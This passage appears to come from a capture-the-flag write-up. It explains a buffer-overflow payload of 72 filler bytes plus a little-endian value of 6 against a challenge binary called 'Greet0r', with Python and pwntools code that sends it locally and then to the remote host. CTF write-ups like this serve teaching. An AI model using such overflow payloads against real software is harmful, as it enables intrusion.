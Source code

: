 Change the payload from `'A'*72\+'B'*4` to `'A'*72+'\x06\x00\x00\x00'`. This sets the value to only `6` as `0x06` is `6` in decimal, and the `\x06` is the first byte as the program would read the input in `little endian` format. Since we can't print and copy '`\x06\x00\x00\x00`', we need to send the raw output to a file. We can do this through python.

```python
f.open('payload.txt', 'wb')
f.write(b'A'*72+b'\x06\x00\x00\x00')
f.close()
```

We can use python's `pwntools` as well:

```python
from pwn import *

p = process('./Greet0r')

print(p.recv())
p.sendline(b'A'*72+b'\x06\x00\x00\x00')
print(p.recvall())
p.close()
```

![image](https://user-images.githubusercontent.com/83258849/147781730-69970f78-e359-467e-a905-3dc8487f64bc.png)

Change `p = process('./Greet0r')` to access the target host `p = remote('<host>', <port>)` and we should get our flag!

_I didn't keep note of the actual flag, sorry :(_

Here is a good youtube video on how it works, created by our beloved **LiveOverFlow**: [https://www.youtube.com/watch?v=T03idxny9jE](https://www.youtube.com/watch?v=T03idxny9jE)
